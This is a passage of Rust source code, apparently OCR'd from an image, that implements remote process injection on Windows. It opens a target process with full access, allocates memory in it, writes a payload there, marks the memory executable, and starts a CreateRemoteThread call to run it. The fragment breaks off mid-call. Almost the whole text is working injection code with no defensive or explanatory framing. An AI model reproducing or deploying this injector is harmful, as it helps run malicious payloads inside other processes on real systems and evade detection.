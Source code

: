 ```rust
        let handle_process: HANDLE = open_process(PROCESS_ALL_ACCESS, false, pid);

        if handle_process.is_invalid() {
            return Err(Error::new(HRESULT(-1), HSTRING::from("OpenProcess Error")));
        }

        /* VirtualAllocEx */
        let remote_memory_ptr: *mut c_void = virtual_alloc_ex(
            handle_process,
            null(),
            payload_len,
            MEM_COMMIT,
            PAGE_READWRITE,
        );

        if remote_memory_ptr.is_null() {
            return Err(Error::new(
                HRESULT(-1),
                HSTRING::from("VirtualAllocEx Error"),
            ));
        }

        println!("Allocated Memory Address: {:p}", remote_memory_ptr);

        /* WriteProcessMemory */
        if write_process_memory(
            handle_process,
            remote_memory_ptr,
            payload_ptr,
            payload_len,
            lp_number_of_bytes_written,
        ) == false
        {
            return Err(Error::new(
                HRESULT(-1),
                HSTRING::from("WriteProcessMemory Error"),
            ));
        }

        /* VirtualProtectEx */
        if virtual_protect_ex(
            handle_process,
            remote_memory_ptr,
            payload_len,
            PAGE_EXECUTE_READ,
            &mut old_protect,
        ) == false
        {
            return Err(Error::new(
                HRESULT(-1),
                HSTRING::from("VirtualProtectEx Error"),
            ));
        }

        /* CreateRemoteThread */
        let handle_tread = create_remote_thread(
            handle_process,
            transmute(::std::ptr::null::<SECURITY_ATTRIBUTES>()),
            transmute(null::<usize>()),
            transmute(remote_memory_ptr),
            null(),
            transmute(null::<u32>() as u32),
            null_mut(),
```